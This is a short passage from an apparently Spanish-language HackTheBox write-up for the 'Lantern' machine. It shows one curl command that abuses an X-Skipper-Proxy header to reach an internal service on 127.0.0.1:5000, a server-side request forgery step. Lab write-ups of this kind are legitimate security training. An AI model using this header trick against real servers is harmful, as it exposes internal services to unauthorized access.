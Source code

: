 <img src="/images/writeup-lantern/12.png">

tenemos 2 servicios mas en el servidor, así que vamos a usar curl para intentar verlo un poco desde la terminal:
```bash
curl -H "X-Skipper-Proxy: http://127.0.0.1:5000" http://lantern.htb
```